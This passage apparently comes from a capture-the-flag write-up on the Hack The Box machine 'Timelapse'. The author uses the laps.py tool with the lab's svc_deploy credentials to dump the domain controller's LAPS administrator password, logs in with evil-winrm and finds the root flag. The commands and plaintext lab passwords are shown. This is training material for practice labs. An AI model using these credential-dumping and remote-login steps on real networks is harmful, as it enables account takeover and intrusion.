 And you can see they have **LAPS_Readers** so we should be able to dump the  password from it for the admin account.

I download the following [**laps.py script**](https://raw.githubusercontent.com/n00py/LAPSDumper/main/laps.py) and take a look through the code. The options state you need to specify a user, password, and domain name:

```bash
usage: laps.py [-h] -u USERNAME -p PASSWORD [-l LDAPSERVER] -d DOMAIN
```

Let's give it a shot and see what happens. I add the timepalse.htb into my /etc/hosts file with the IP address for the box and then run:

`python3 laps.py -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb`

```bash
DC01$:AUw04.76%dqY1O8k&7aBeyA6
```

<br>

## Administrator

With that hash we can connect over as the local administrator:

`evil-winrm -i 10.10.11.152 -u administrator -p 'AUw04.76%dqY1O8k&7aBeyA6' -S`

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

I change over to the desktop directory but the **root.txt** flag is not there like it usually is.

I run a recursive search to find the file:

`Get-ChildItem -Path C:\ -Filter root.txt -Recurse -ErrorAction SilentlyContinue -Force`

```powershell
   Directory: C:\Documents and Settings\TRX\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/12/2022   3:45 PM             34 root.txt
```

<br>

And with that flag we've completed this CTF!

<br>

![](images/timelapse1.png)

<br>

## Conclusion
